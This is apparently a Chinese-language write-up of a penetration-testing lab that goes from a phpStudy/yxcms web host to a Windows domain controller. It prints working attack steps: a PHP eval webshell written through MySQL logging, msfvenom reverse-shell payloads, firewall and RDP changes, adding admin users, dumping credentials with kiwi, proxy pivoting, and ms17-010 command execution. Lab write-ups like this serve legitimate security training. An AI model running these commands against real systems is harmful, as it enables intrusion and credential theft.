# 红日

## 靶场一：

## 配置

```
Kali：
eth0: 192.168.195.128

Win7（模拟外网administrator）
eth0: 192.168.195.129
eht1: 192.168.52.128

Win2003（域成员administrator）
eth0: 192.168.52.141

Win2008（域控liukaifeng01）
eth0: 192.168.52.138
```

```
域控管理下面的域成员，3/7/8三个在一个网段，其中52为内网，7中包含了两个网卡一个作为外网，一个作为内网，外网可以被探测是联网了的，内网不可以直接扫，所以win7相当于是一个目标机，我们是攻击机，然后打到win7再打域成员最后是域控
```

### 一、web渗透：

#### 第一种思路：

1.先进行一波信息收集，先进行**端口扫描**注意需要现在win7主机运行PhpStudy）

sS表示是tcp syn扫描（用于内网穿透）


发现80等多个端口开启，访问http://192.168.195.129发现页面如下，存在大量信息泄露，收集有效信息。


这个页面泄露了很多信息，服务器版本、php版本、绝对路径、管理员邮箱等。

2.发现无从下手可以先试试进行目录扫描



发现很多目录

试着手动验证一下不同的后缀以及大小不一样的目录（关注是否是404或者200）


测试到/phpinfo.php页面信息，里面包含重要信息

**disabled_functions禁用函数表示没有禁用的函数**（敏感信息泄露漏洞）

继续测试发现：


可以看到phpmyadmin的更新记录，说明上一个目录phpmyadmin存在

尝试访问：


成功访问。

然后我们测试扫描备份目录：




尝试访问备份文件：


访问成功，发现里面有一个备份目录，然后尝试在url中访问是否存在


也成功访问到


观察页面信息发现包含如此信息泄露，然后通过指引进入后台




进入后台，寻找最简单最容易利用的漏洞，文件上传，发现有上传图片和内容的点，无法利用


经过一番寻找又找到一个上传点，但是也无法进行利用

发现多个文件上传点都无法进行利用，都进行了限制，所以尝试别的方式

再次回过来看备份文件发现一个跟数据库关联的配置文件：


cms必然有一个配置文件，如果需要使用数据库，里面包含着与数据库建立联系的用户以及密码，所以翻阅得到数据库账户以及密码

链接数据库：



登录进入

根据之前的更新日志题型，所以可以进行对版本的漏洞查找，看是否有可以利用的漏洞或者自己进行测试

先进行自己测试，首先可以尝试看数据库是否有导入权限，能否导入木马

**利用语句：**

```
SHOW GLOBAL VARIABLES LIKE '%secure%'
```


没有导入权限，查看是否有开启全局日志


全局日志功能关闭，不过可以通过命令开启，并修改日志保存的绝对路径，这里的路径可以在探针页面获得。

探针页面得到路径位置：



```sql
SET GLOBAL general_log = ON;# 开启日志
SET GLOBAL general_log_file = 'C:/phpstudy/WWW/test.php';# 设置日志位置为网站目录
```


更改成功，接着向日志文件写shell

```sql
select '<?php eval ($_POST[s]);?>'
```


执行这条语句之后，日志会将select后的查询语句记录进日志，从而让日志变成一个一句话木马。

用蚁剑连接


连接成功。（拿到数据库权限）


**再回过头来测试yxcms平台发现：**

多次测试发现：

在前台模板里可以对php文件进行编辑




随便找一个php的文件进行修改：



然后根据之前下载的beifen文件看到修改的php文件的路径，再使用蚁剑进行测试连接：



成功连接到（拿到后台权限）

查看拿到的shell是什么权限：



拿到管理员权限

#### 第二种思路：

1.先进行一波信息收集，先进行**端口扫描**注意需要现在win7主机运行PhpStudy）

sS表示是tcp syn扫描（用于内网穿透）


发现80等多个端口开启，访问http://192.168.195.129发现页面如下，存在大量信息泄露，收集有效信息。


这个页面泄露了很多信息，服务器版本、php版本、绝对路径、管理员邮箱等。

或者可以在这里试试mysql是否存在弱口令

输入root root进行检测，发现可以连接数据库



因为页面是phpstudy搭建所以很有可能存在phpmyadmin后台

发现确实有，登录



然后我们直接来扫一下目录


确实存在phpmyadmin，还扫到了一个备份文件，打开发现是yxcms的网站源码，应该部署着这个CMS 。


使用弱口令登进去phpmyadmin，查看数据库是否有导入权限，看能否导入木马

```sql
SHOW GLOBAL VARIABLES LIKE '%secure%'
```



没有导入权限，查看是否有开启全局日志


全局日志功能关闭，不过可以通过命令开启，并修改日志保存的绝对路径，这里的路径可以在探针页面获得。

探针页面得到路径位置：


```sql
SET GLOBAL general_log = ON;# 开启日志
SET GLOBAL general_log_file = 'C:/phpstudy/WWW/test.php';# 设置日志位置为网站目录
```


更改成功，接着向日志文件写shell

```sql
select '<?php eval ($_POST[s]);?>'
```


执行这条语句之后，日志会将select后的查询语句记录进日志，从而让日志变成一个一句话木马。

用蚁剑连接


连接成功。（拿到数据库权限）

我们再来看下部署的CMS，打开网站



通过提示登录后台：


多次测试发现：

在前台模板里可以对php文件进行编辑


随便找一个php的文件进行修改：


然后根据之前下载的beifen文件看到修改的php文件的路径，再使用蚁剑进行测试连接：


成功连接到（拿到后台权限）

查看拿到的shell是什么权限：


拿到管理员权限

### 二、内网渗透：

首先**关闭防火墙**（mstsc）

cmd命令提示：

```
net stop mpssvc 关闭防火墙

net start mpssvc 开启防火墙
```

或者使用cmd调用powershell再输入命令关闭

#### 1.远程登录

尝试添加一个用户，并将其更改为管理员权限


用户添加成功（因为管理员用户默认打开了远程桌面连接，所以添加至管理员组）

打开**3389**

命令提示：

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f 
```


尝试远程登录：

登陆成功


#### 2.cs上线


设置监听：


生成一个EXE后门


通过蚁剑上传并执行




成功上线。执行sleep 0，不然回显会很慢

```
sleep 0则表示进入交互模式，任何输入的命令都会被立即执行。
```



shell systeminfo 查看系统信息

#### 3.msf上线

先用kali选择目标机对应的操作系统的木马

```
Linux

linux/x86/meterpreter/reverse_tcp操作系统对应的插件
lhost代表攻击机的本地ip lport攻击机的监听端口（一般就是本机）

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f elf > shell.elf

Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f exe > shell.exe

PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.php

ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f asp > shell.asp

JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.jsp

Python

msfvenom -p cmd/unix/reverse_python LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.py

Bash

msfvenom -p cmd/unix/reverse_bash LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.sh

Perl

msfvenom -p cmd/unix/reverse_perl LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.pl

```




再进入msf的主程序开启监听端口


成功进入


use选择插件    利用多线程监听器



show所有监听器的类型

插件类型要与刚才生成的木马一致


这里也可以set payload 365


成功开启端口

用win7模拟目标机运行exe后





上线成功

## 三、内网信息搜集

开始进行内网搜集

首先尝试进行提权：输入chcp 65001可解决乱码问题（或者用蚁剑的终端）





可知内网网段应该是 192.168.195.1/24

**windows域理解：**

```
Windows域是计算机网络的一种形式，其中所有用户帐户  ，计算机，打印机和其他安全主体都在位于称为域控制器（DC）的一个或多个中央计算机集群上的中央数据库中注册。 身份验证在域控制器上进行。  在域中使用计算机的每个人都会收到一个唯一的用户帐户，然后可以为该帐户分配对该域内资源的访问权限。 Windows域的概念与工作组的概念形成对比。
```

#### **首先判断是否在域中**：

1.

域控制器一般**集成了DNS服务**，通过 `ipconfig /all`，即可简单判断。



该域名为god.org，还可以使用下面这种方式。

2.

net view /domain  #查询当前主机是否加入域，如果加入则列出域名



这里表示加入了god域，没有加入会显示localgroup

#### **查看域内信息**

命令提示：

```
net config Workstation #查看计算机名、全名、用户名、系统版本、工作站、域、登录域
```



#### **接着定位域控**

同步域控服务器时间：



这里得到域控的域名：owa.god.org

用 ping 即可反查出域控ip



由此我们得到域控制器的ip为192.168.52.138

再来看一下域内的其它主机

#### **查看与该计算机位于同一工作组或域中的所有计算机名**

：net view



这里的 OWA 就是上面的域控，另一个就是域内的其它主机了。

#### 再来看一下域管理员

net group "domain admins" /domain # 查询域管理员



很幸运，可以看到这里我们获得的 Administration 就是域控OWA的域管理员 。

#### **看一下域里有几个用户**

```go
net user /domain  # 查看域用户，只有域管才能执行
```



得到五个域用户名

#### 尝试抓取主机本地的密码：

这里的hashdump需要获取system权限，administrator是可以直接获取system权限的，所以直接用getsystem就可以提权



用户哈希数据的输出格式为：

```shell
用户名:SID:LM哈希:NTLM哈希:::
```

得到了三个本地用户账号，分别为 Administrator、Guest 和 liukaifeng01 。

三个账号的LM哈希`aad3b435b51404eeaad3b435b51404ee`和NTLM哈希`31d6cfe0d16ae931b73c59d7e0c089c0`都是空密码。



用md5解码得到

这是因为当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，密码字段显示为null，需要修改注册表等用户重新登录后才能成功抓取。

那就尝试抓取域内的账号密码：利用 msf 的 kiwi 模块 详细介绍

```shell
load kiwi #加载kiwi模块
help kiwi #查看kiwi模块的使用
```

注意执行需要system权限。

```shell
creds_all         #列举所有凭据
creds_kerberos    #列举域内账号密码
```





成功得到域账号密码。

目前为止，我们获得的内网信息有：

```go
域名：god.org
域内有五个用户：Administrator、Guest、liukaifeng01、ligang、krbtgt
域内三台主机：OWA、ROOT-TVI862UBEH(192.168.52.141)、STU1(win7)
域控：OWA(192.168.52.138)
win7内网ip：192.168.52.128
```

### 四、横向渗透

为了**让 msf 能访问内网的其他主机**，即 52 网段的攻击流量都通过已渗透的这台目标主机（Windows7）的meterpreter会话来传递，需要**建立socks反向代理**。

```
注：添加路由一定要在挂代理之前，因为代理需要用到路由功能
```

#### 1、添加路由、挂上Socks4a代理

socks理解

```
SOCKS代理是一种基于SOCKS协议的代理服务器，用于在客户端和服务器之间建立一个安全的连接通道。
SOCKS代理服务器使用TCP协议来传输数据，能够支持多种网络协议。这种代理协议的主要优势在于其简单性和速度，SOCKS代理不关心传输的数据是什么应用协议，因此可以应用于多种网络应用程序，如Web浏览器、FTP、Telnet和SMTP等。SOCKS代理的主要功能包括数据加密、访问控制和网络管理，此外，SOCKS代理还可以隐藏客户端的IP地址，保护用户隐私，并允许用户访问不同国家或地区的服务器，甚至可以绕过地理限制。SOCKS代理分为SOCKS4和SOCKS5两个版本，其中SOCKS5是SOCKS4的升级版，支持更多的功能和更安全的连接。
```

使用 msf+proxychains 搭建socks4a隧道。

在之前监听到的shell中设置内网路由

##### **配置路由：**

```
msf > run autoroute -s 192.168.52.0/24
#配置静态路由让这个session1来转发访问192.168.52.0/24这个网段的所有流量
```



2、使用background命令将该shell放在后台，使用route print查看配置是否成功



或者用下面的命令直接查看

```shell
run autoroute -p
```



##### 然后开启代理

```
msf > use auxiliary/server/socks_proxy
msf > set version 4a
msf > set srvhost 192.168.118.128（因为是本机ip所以可以跟127.0.0.1）
msf > set srvport 1080
msf > exploit
```



此时已经开启代理监听在1080端口



然后在 proxychains 的配置文件 /etc/proxychains.conf，添加本机的1080端口：



然后执行命令时，前面加上 proxychains 即可。

如：proxychains代理nmap扫描靶机2（通过代理用nmap来进行扫描，需要在后面加上sS后缀，这样才能走tcp流量，才能成功代理）



这种就是数据代理成功，出现这种记录

如：proxychains ping 192.168.52.141（域成员ip）这是不行的，因为socks只代理TCP和UDP协议，ping命令是ICMP协议



#### 2、域成员渗透

首先看一下域成员的端口开放情况：

先只对域成员（192.168.52.141）的一些高危端口进行扫描

```shell
proxychains nmap -sV -Pn -p 22,80,135,443,445,3389 192.168.52.141
```



看到135、445都是开放的，并且这台终端为win_2003，32位系统。

可以利用常见的端口漏洞

```
21-FTP，看是否存在匿名访问
22-SSH，看是否存在弱口令
80-HTTP，常见web漏洞
443-openssl，心脏出血
445-smb，ms17-010、ms08-067
3306-mysql，弱口令
1433-mssql，弱口令
1521-oracle，弱口令
3389-远程连接桌面
6379-redis未授权访问，弱口令
8080-tomcat漏洞
```

这里开放了445端口，可以看一下是否存在ms17-010



可以发现含有ms17-010，但是利用只支持64位的系统（第一行可以看到）

所以不行，看另一个漏洞

```shell
use auxiliary/admin/smb/ms17_010_command 发现有
set COMMAND net user设置
set RHOST 192.168.52.141设置监听ip
run执行
```





成功执行命令。接着我们来添加一个用户尝试远程登录一下。

还是使用上面的模块，依次执行下面命令

```shell
set command net user sss qwer@1234 /add #添加用户
run # 发现用户添加不成功，后来发现是因为有密码设置策略，密码不能太简单。
set command net localgroup administrators sss /add #管理员权限
run 
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' 
#开启3389端口
runset command netsh advfirewall set allprofiles state off #关闭防火墙
run #好像没有防火墙
```

添加用户



给添加的用户管理员权限


然后远程登录

```shell
proxychains rdesktop 192.168.52.141
```



这里注意一定要选这个，因为登陆的是本机。



成功进来了



#### 3、域控渗透

同样的，先扫描一下端口



这里也可以用fscan扫



发现80端口开放，访问发现只是一个基础页面



再用之前的漏洞进行测试

```
use auxiliary/scanner/smb/smb_ms17_010

扫描是否含有ms17-010漏洞（scanner扫描），不能直接利用
```

想用什么漏洞首先应该进行扫描

比如：

searsh ms17_010



发现有下面这些利用方式，选择其中一种进行测试

选择auxiliary/admin/smb/ms17_010_command这种利用方式

首先show options查看怎么利用



然后利用设置监听ip ，并添加一个用户，这里的用户被直接添加到了god域



然后打开远程连接端口3389（192.168.52.138），然后关闭防火墙，再运行


然后远程连接





成功登录进入

到这里就完成域控以及域成员的渗透。
